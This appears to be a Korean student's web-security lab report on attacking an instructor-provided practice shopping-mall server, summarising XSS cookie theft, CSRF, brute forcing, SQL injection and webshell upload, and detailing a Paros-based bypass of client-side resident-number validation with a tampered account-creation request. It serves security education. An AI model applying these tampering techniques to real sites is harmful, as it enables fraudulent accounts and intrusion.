










## 프로젝트 목표
- 강사님이 주신 **Camel**을 대상으로, 지금까지 배운 웹 보안 실습 흐름을 가능한 한 많이 적용해 본다.

## 전체 결과 요약

| 항목            | 결과  | 핵심 확인                                                                          |
| ------------- | --- | ------------------------------------------------------------------------------ |
| [[#4. 증거 - 클라이언트 검증 우회\|클라이언트 검증 우회]] | 성공  | Paros `Trap response`와 `Trap request`로 브라우저 검증을 우회하고, 일부 필수값이 비어 있는 더미 계정을 생성함 |
| [[#4. 증거 - Brute Forcing\|Brute Forcing]] | 성공  | Hydra로 4자리 숫자 비밀번호 후보를 반복 대입하여 더미 계정의 비밀번호를 탐지함                                |
| [[#4. 증거 - XSS\|XSS]] | 성공  | Stored XSS로 Session Cookie를 외부 전송하고, 탈취한 Cookie를 재사용하여 Session Hijacking까지 확인함 |
| [[#4. 증거 - CSRF\|CSRF]] | 성공  | 자유게시판에 저장한 버튼 클릭형 CSRF form으로 회원정보를 변경함                                        |
| [[#4. 증거 - SQL Injection\|SQL Injection]] | 성공  | **수동 인증 우회는 실패**했지만, SqlMap으로 `id` SQL Injection과 DB 정보 노출을 확인함                |
| [[#4. 증거 - 파일 업로드 취약점\|파일 업로드 취약점]] | 성공  | 업로드한 ASP를 서버에서 실행하고, 강사님 제공 Webshell로 OS 명령 실행 결과를 확인함                            |

# 0. 환경 설정

기존 실습과 달리 공격 대상 웹서버는 강사님이 제공하신 Win 2000에 내장된 쇼핑몰 서버다. 이 서버는 이하 **Camel**이라 한다.

## 통신 설정
![[Pasted image 20260529165841.png]]
> [!todo]+ 통신 설정 순서
> 1. `Win + R`로 실행 창을 연다.
> 2. `ncpa.cpl`을 입력한다.
> 3. **로컬 영역 연결**을 더블클릭한다.
> 4. **등록 정보**를 연다.
> 5. **인터넷 프로토콜**을 선택한다.
> 6. 위 스크린샷과 같이 IP 설정을 맞춘다.
>
> 게이트웨이는 이번 실습에서 필수값이 아니다.

## 웹서버 설정

![[Pasted image 20260529170039.png]]
> [!todo]+ Camel 실행 순서
> 1. 바탕화면에서 **인터넷 서비스**를 연다.
> 2. **hackers-web** 항목으로 이동한다.
> 3. **webhack**을 중지한다.
> 4. **camel**을 실행한다.

---

# 시작 전 주의점

> [!warning] 시작 전 주의점
> 참고 자료로 인용한 기존 실습 노트의 환경과 이번 Camel 프로젝트 환경은 다르다. 기존 노트는 원리와 정리 구조를 참고하는 용도이며, 절차를 그대로 따라 하지 않는다.

| 구분 | 기존 실습 노트 | 이번 미니 프로젝트 |
|---|---|---|
| 대상 환경 | Apache/PHP 기반 `care` 실습 환경 | Win 2000 기반 Camel 쇼핑몰 서버 |
| 자료 사용 방식 | 이전 실습의 원리와 정리 구조 확인 | Camel에서 실제 동작 여부 재검증 |
| 링크 방식 | Obsidian 내부 링크 대신 GitHub 파일 링크 사용 | PDF에서 링크 의미가 보이도록 처리 |

# 1. 클라이언트 검증 우회

## 목표

> [!summary] 확인할 것
> Camel 회원가입 화면의 주민등록번호 및 필수 입력값 검증이 브라우저 JavaScript에서 수행되는지 확인한다. 이후 Paros의 `Trap response`와 `Trap request`를 각각 사용하여 클라이언트 검증을 우회할 수 있는지 검증한다.

> [!success] 최종 결과
> 두 가지 방법으로 클라이언트 검증을 우회했다.
> 1. `Trap response`: 브라우저로 전달되는 JavaScript에서 주민등록번호 검증 block을 제거하여 비정상 주민등록번호를 다음 회원가입 페이지까지 전달했다.
> 2. `Trap request`: `members_save.asp`로 보내는 계정 저장 요청의 parameter를 직접 조작하여, 비정상 주민등록번호와 일부 필수 정보가 비어 있는 후속 실습용 계정 `hacker / 1`을 생성했다.
> 회원정보 수정 화면에서도 이메일, 연락처, 이동전화 뒷자리, 주소가 비어 있는 것을 확인했다.

## 기준 자료

- 기준 자료: [Client-side Validation 우회와 Server-side Validation 실습](https://github.com/Unoh03/Obsi2/blob/main/10_%ED%95%99%EC%8A%B5%20%EB%85%B8%ED%8A%B8/%EC%8B%9C%EC%8A%A4%ED%85%9C%EB%B3%B4%EC%95%88/%EC%9B%B9%EB%B3%B4%EC%95%88/Client-side%20Validation%20%EC%9A%B0%ED%9A%8C%EC%99%80%20Server-side%20Validation%20%EC%8B%A4%EC%8A%B5.md)
- 참고할 부분: 브라우저에서만 수행되는 검증은 proxy나 요청 조작으로 우회될 수 있고, 최종 보안 판단은 서버에서 해야 한다는 원리.
- Camel에서 다시 확인할 것: 회원가입 주민등록번호 및 필수 입력값 검증이 브라우저 JavaScript에만 의존하는지, `Trap response`와 `Trap request`를 이용한 두 가지 우회 방식이 모두 가능한지 여부.

## 1. 분석

### 대상 선정 배경

- 프로젝트 시작 전, 다 함께 회원가입을 할 때 주민등록번호를 적어야 했음.

![[Pasted image 20260529185851.png]]

- 주민번호에 규칙이 등록되어 있어, 일단 회원가입 후 아래 SQL로 실습용 더미 값으로 수정했다.

```sql
UPDATE member set mem_jumin='850222-1212121' WHERE mem_id='unoh03';
```

> [!note] 실습용 더미 값
> `850222-1212121`은 실제 주민등록번호가 아니라 실습용 더미 값이다.

- 현재 대화 기록에 남은 명령어는 위 SQL뿐이다. 차후 SQL Injection 단계에서 DB 구조를 역추적해 더 정확한 명령어와 테이블 구조를 보강한다.
- 위 경험을 살려, 이번 우회 대상은 `주민등록번호의 규칙`으로 정하였다.

### 대상 화면과 요청

| 항목 | 값 |
|---|---|
| 화면 | Camel 회원가입 화면 |
| URL | 실습 당시 Camel 회원가입 화면, 정확한 URL 기록 없음 |
| method | 주민번호 확인 및 계정 저장 요청 모두 `POST`로 확인됨 |
| 주민번호 확인 주요 parameter | `mem_jumin1`, `mem_jumin2`, `check_jumin` |
| 계정 저장 주요 parameter | `mem_jumin`, `mem_name`, `mem_id`, `mem_pwd`, `mem_email`, 연락처, 주소 |
| 사용 도구 | Paros, 브라우저 |
| 중복 확인 endpoint | `pop_member_OK.asp?jumin1=...&jumin2=...` |
| 다음 회원가입 페이지 endpoint | `member_form.asp` |
| 계정 저장 endpoint | `members_save.asp` |

### 관련 코드 또는 응답

윈도우에서 프록시를 설정하고 Paros를 실행한 뒤, Camel 회원가입 화면의 응답 source를 확인했다.

> [!summary] 현재 확인된 사실
> Camel 회원가입 페이지는 주민등록번호 입력값을 브라우저 JavaScript에서 읽고, 길이·날짜 범위·성별 구분 자리·체크섬을 검사한다.  
> 중복 확인 버튼과 최종 회원가입 버튼 모두 이 검증 함수를 호출하므로, 현재 source만으로도 **Client-side Validation이 존재한다**는 점은 확인된다.
>
> 다만 source 분석만으로는 실제 우회 성공 여부를 확정할 수 없다. 해당 판단은 아래 Paros `Trap response`와 `Trap request` 결과로 확인한다.

### 기준 실습과 이번 프로젝트의 연결

기존 실습에서는 Paros를 이용해 브라우저 단계의 검증을 우회하고, 서버 측 검증이 있을 때는 같은 조작이 차단되는 차이를 확인했다.

| 구분 | 기존 실습 노트 | Camel에서 확인할 것 |
|---|---|---|
| 검증 대상 | 로그인 ID 길이 | 회원가입 주민등록번호 규칙 |
| Client-side Validation | `login.php` JavaScript | `jumin1()` / `jumin()` JavaScript |
| 요청 조작 지점 | `POST /member/loginModel.php` | `pop_member_OK.asp`, `member_form.asp`, `members_save.asp` 요청 |
| 최종 판단 | 서버 PHP 재검증 여부 | Camel 서버가 조작값을 수용하는지 여부 |

회원가입 form은 `member_form.asp`로 제출되며, 주민등록번호는 두 입력 필드로 나뉘어 전달된다.

```asp
<form name=form method=post action="member_form.asp">
<input type="hidden" name="check_jumin" value='no'>
<input type="text" name="mem_jumin1" onkeyup="check_focus()" size="6" maxlength="6" class="box">
<input type="text" name="mem_jumin2" size="7" maxlength="7" class="box">
```

화면의 두 버튼은 각각 JavaScript 검증 함수를 호출한다.

```asp
<a href='javascript:jumin1()'>...</a>
<a href="javascript:jumin();">...</a>
```

| 함수 | 화면상 역할 | 확인된 동작 |
|---|---|---|
| `jumin1()` | 회원가입여부 확인 | 주민번호 검증 후 `pop_member_OK.asp` 호출 |
| `jumin()` | 회원가입 제출 | 주민번호 검증과 `check_jumin` 확인 후 form 제출 |
| `check_focus()` | 입력 편의 기능 | 앞 6자리가 입력되면 `mem_jumin2`로 focus 이동 |

`jumin1()`과 `jumin()`은 둘 다 브라우저에서 입력값을 읽고 다음 조건을 검사한다.

- `mem_jumin1` 앞자리 6자리 여부
- `mem_jumin2` 뒷자리 7자리 여부
- 월·일 범위
- 성별 구분 자리값 `1~4`
- 주민등록번호 체크섬

실제로 제거한 실패 처리 block과 유지한 정상 진행 코드는 아래 `3-1 alert 메시지 기반 역추적`에 모아 정리한다.



> [!note] 코드 제시 범위
> 회원가입 페이지 전체 source 중, 이번 검증 우회 판단에 직접 필요한 주민등록번호 검증 함수와 요청 흐름만 발췌하였다. 메뉴, 이미지, 레이아웃, 약관 및 화면 이동 스크립트는 분석 대상이 아니므로 제외하였다.

### 분석 메모

- 관찰한 사실: 주민등록번호 검증 함수 `jumin1()`과 `jumin()`이 회원가입 페이지 응답 source에 존재한다.
- 수상한 지점: 길이, 날짜 범위, 성별 구분 자리, 체크섬 검증이 모두 브라우저 JavaScript에서 수행된다.
- 관찰한 사실: `Trap response`에서 브라우저 JavaScript의 주민등록번호 검증 block을 제거하자 비정상 값이 다음 페이지까지 전달되었다.
- 관찰한 사실: `Trap request`에서 `members_save.asp` 요청의 parameter를 직접 조작하자, 일부 필수 정보가 누락된 계정을 생성할 수 있었다.
- 우회 또는 공격 가능성: 브라우저 검증 코드를 제거하거나, 브라우저를 통과한 뒤 요청 값을 직접 바꾸는 두 방식 모두 가능하다.
- 한계: DB 테이블 구조 자체는 아직 직접 확인하지 않았다. 해당 구조는 SQL Injection 단계에서 별도로 확인한다.

## 2. 가설

> [!note] 가설
> Camel 회원가입 페이지가 주민등록번호 규칙을 브라우저 JavaScript에서 먼저 검사하므로, Paros로 해당 검증 흐름을 우회하면 조작된 주민번호 값이 `pop_member_OK.asp` 또는 `member_form.asp`로 전달될 것이다. 다만 서버 측 재검증이 있다면 최종 처리는 차단될 수 있다.

| 근거 | 예상 |
|---|---|
| `jumin1()`과 `jumin()`이 주민번호 길이·날짜·성별 자리·체크섬을 검사함 | 브라우저 단계의 검증 코드를 제거하거나 흐름을 바꾸면 화면 검증은 우회 가능 |
| `jumin1()`이 `pop_member_OK.asp?jumin1=...&jumin2=...`를 호출함 | 중복 확인 요청의 query 값을 Paros에서 관찰하거나 조작 가능 |
| 주민번호 확인 후 `member_form.asp`로 제출됨 | 다음 회원가입 단계에서 조작값 반영 여부를 확인 가능 |
| 최종 계정 저장 action이 `members_save.asp`임 | 일부 필수 정보를 비운 상태로 계정 생성 가능 여부 확인 |
| 계정 저장 요청을 Paros `Trap request`에서 조작 가능 | 일부 필수 정보를 비운 상태로 `members_save.asp`에 직접 제출 가능 |
| 회원정보 수정 화면에서 누락한 정보가 비어 있음 | 계정 저장 단계에서 필수값 누락을 차단하지 못했음을 확인 가능 |

## 3. 실행

> [!success] 실제 진행 절차
> 1. Paros를 켠 상태에서 Camel 회원가입 화면 응답 source를 잡는다.
> 2. 아래 문자열로 주민번호 검증 코드 위치를 찾는다.
> 3. `Trap response`에서 alert와 `return`이 있는 실패 처리 block을 제거한다.
> 4. `window.open()` / `document.form.submit()` 같은 정상 진행 코드는 유지한다.
> 5. `ㅁㄴㅇㄹ`, `123123-1234321`을 입력해 다음 회원가입 페이지로 진행한다.
> 6. 다음 페이지 HTML과 화면 출력에 비정상 값이 반영되는지 확인한다.
> 7. 다음 회원가입 페이지에서 계정 저장 요청을 발생시킨다.
> 8. Paros `Trap request`에서 `members_save.asp`로 전송할 parameter를 직접 조작한다.
> 9. 일부 필수 정보를 비운 상태로 후속 실습용 계정 `hacker / 1`을 생성한다.
> 10. 회원정보 수정 화면에서 누락한 정보가 빈 상태로 저장되었는지 확인한다.

### Paros에서 먼저 찾을 문자열

회원가입 응답 source에서 아래 문자열을 찾으면 검증 코드 주변으로 바로 이동할 수 있다.

| 찾을 문자열                      | 의미                                  |
| --------------------------- | ----------------------------------- |
| `function jumin1()`         | 주민등록번호 중복 확인 버튼에서 호출되는 검증 함수        |
| `function jumin()`          | 최종 회원가입 버튼에서 호출되는 검증 함수             |
| `function check_focus()`    | 앞 6자리 입력 후 뒷자리 칸으로 focus를 넘기는 보조 함수 |
| `유효하지 않은 주민등록번호입니다.`        | 체크섬 검증 실패 시 출력되는 alert              |
| `회원가입여부를 확인하시기 바랍니다.`       | 중복 확인 상태값이 없을 때 가입 제출을 막는 alert     |
| `pop_member_OK.asp?jumin1=` | 중복 확인 요청으로 이어지는 URL                 |
| `member_form.asp`           | 주민번호 확인 후 이동하는 다음 회원가입 페이지          |
| `members_save.asp`          | 최종 계정 저장 요청 대상                      |

Paros 조작 결과는 아래 `3-1 alert 메시지 기반 역추적`의 HTML 응답 발췌에 기록한다.

---

### 3-1 alert 메시지 기반 역추적

위 절차는 함수명과 요청 흐름을 기준으로 검증 코드를 찾는 방식이다.
하지만 긴 HTML/JavaScript source를 한 번에 이해하기 어려워, 실제 화면에 뜨는 alert 문구를 기준으로 역추적했다.

alert 메시지를 기준으로 관련 검증 block을 찾아 제거했다.
입력값은 `ㅁㄴㅇㄹ`, `123123-1234321`로 통일하였다.

| 화면에 뜬 alert 메시지 | 의미 | 조치 |
|---|---|---|
| `주민등록번호를 바로 입력하여 주십시오.` | 길이, 날짜 범위, 성별 자리 검증 실패 | 해당 alert와 `return`이 들어 있는 실패 처리 block 제거 |
| `유효하지 않은 주민등록번호입니다.` | 체크섬 검증 실패 | 체크섬 실패 처리 block 제거 |
| `(무반응)` | 정상 진행 코드까지 지운 상태 | `window.open()` / `document.form.submit()` 같은 정상 흐름은 유지 |

삭제 대상으로 삼은 실패 처리 block은 아래와 같다.

```javascript
if (jumin1.length==0)
{
	alert ("주민등록번호가 입력되지 않았습니다.");
	document.form.mem_jumin1.focus();
	return;
}
if (jumin1.length !=6)
{
	alert ("주민등록 6자리가 들어가야 합니다.");
	document.form.mem_jumin1.focus();
	return;
}
if ((document.form.mem_jumin1.value.length != 6)
    || (mm < 1 || mm > 12 || dd < 1 || dd > 31)) {
    alert("주민등록번호를 바로 입력하여 주십시오.");
    document.form.mem_jumin1.focus();
    return;
}
if (jumin2.length==0)
{

	alert ("주민등록번호가 입력되지 않았습니다.");
	document.form.mem_jumin2.focus();
	return;
}
if (jumin2.length != 7)
{
	alert ("주민등록 7자리가 들어가야 합니다.");
	document.form.mem_jumin2.focus();
	return;
}

if ((chkSex != 1 && chkSex != 2 && chkSex != 3 && chkSex != 4)
    || (document.form.mem_jumin2.value.length != 7)) {
    alert("주민등록번호를 바로 입력하여 주십시오.");
    document.form.mem_jumin2.focus();
    return;
}

if (chk != document.form.mem_jumin2.value.substring(6,7)) {
    alert("유효하지 않은 주민등록번호입니다.");
    document.form.mem_jumin1.value = "";
    document.form.mem_jumin2.value = "";
    document.form.mem_jumin1.focus();
    return;
}
```

반대로 아래 코드는 정상 흐름이므로 삭제하면 안 된다.

```javascript
var jumin1 = document.form.mem_jumin1.value;
var jumin2=document.form.mem_jumin2.value;
window.open(
    "pop_member_OK.asp?jumin1=" + jumin1 + "&jumin2=" + jumin2,
    "_imgwin1",
    "width=450,height=200,scrollbars=0,left=150,top=20"
);

document.form.submit();
```

> [!note] 시행착오
> 검증 실패 block과 정상 진행 코드를 함께 지우면 팝업을 열거나 form을 제출하는 코드까지 사라지므로, 화면이 무반응처럼 보인다. 따라서 alert와 `return`이 있는 실패 처리 block만 제거하고, 요청을 보내는 코드는 유지해야 한다.

값 자체를 Paros에서 직접 위조하는 방식도 가능하지만, 이번에는 브라우저 검증 코드가 실제로 우회되는지 확인하기 위해 `Trap response`에서 실패 처리 block을 제거하는 방식으로 진행했다.

`Trap response`를 켠 채로 회원가입 버튼을 눌러 다음 페이지의 HTML을 받아왔다. 아래는 그 중 일부다.
```php
<form name=form method=post>
<input type=hidden name='mem_jumin' value='123123-1234321'>
<input type=hidden name='mem_name' value='ㅁㄴㅇㄹ'>

<td bgcolor="#FFFFFF" width="79%">ㅁㄴㅇㄹ</td>
<td bgcolor="#FFFFFF" width="79%">123123-1234321</td>
```
이전 페이지에서 입력한 비정상 값이 다음 회원가입 페이지의 hidden 값과 화면 출력에 반영된 것을 확인했다.

### 3-2 Trap request로 필수 입력값 직접 조작

두 번째 방법으로는 브라우저 JavaScript를 다시 수정하지 않고, Paros `Trap request`에서 `members_save.asp`로 전송되는 계정 저장 요청의 parameter를 직접 조작했다.

```text
mem_jumin=123123-1234321&mem_name=HACKER&mem_id=hacker&mem_pwd=1&rePwd=1&mem_email=&tel1=&tel2=&tel3=&hp1=011&hp2=&hp3=&zip1=&zip2=&addr1=&addr2=
```

| 조작한 값 | 의미 |
|---|---|
| `mem_jumin=123123-1234321` | 주민등록번호 규칙에 맞지 않는 더미 값 |
| `mem_pwd=1`, `rePwd=1` | 화면 안내의 `4~8자` 조건보다 짧은 비밀번호 |
| `mem_email=` | 이메일 누락 |
| `tel1=`, `tel2=`, `tel3=` | 연락처 누락 |
| `hp2=`, `hp3=` | 이동전화 뒷자리 누락 |
| `zip1=`, `zip2=`, `addr1=`, `addr2=` | 주소 누락 |

그 결과 회원가입 화면에서 필수로 표시된 정보를 비운 상태로 후속 실습용 계정을 생성할 수 있었다.

> [!note] 후속 실습용 계정
> - 이름: `HACKER`
> - ID: `hacker`
> - Password: `1`
> - 주민등록번호: `123123-1234321`
>
> 위 값은 Camel 실습 환경에서만 사용하는 더미 계정 정보다.

회원정보 수정 화면에서도 누락한 정보가 빈 상태로 표시되었다.

![[Pasted image 20260531185149.png]]

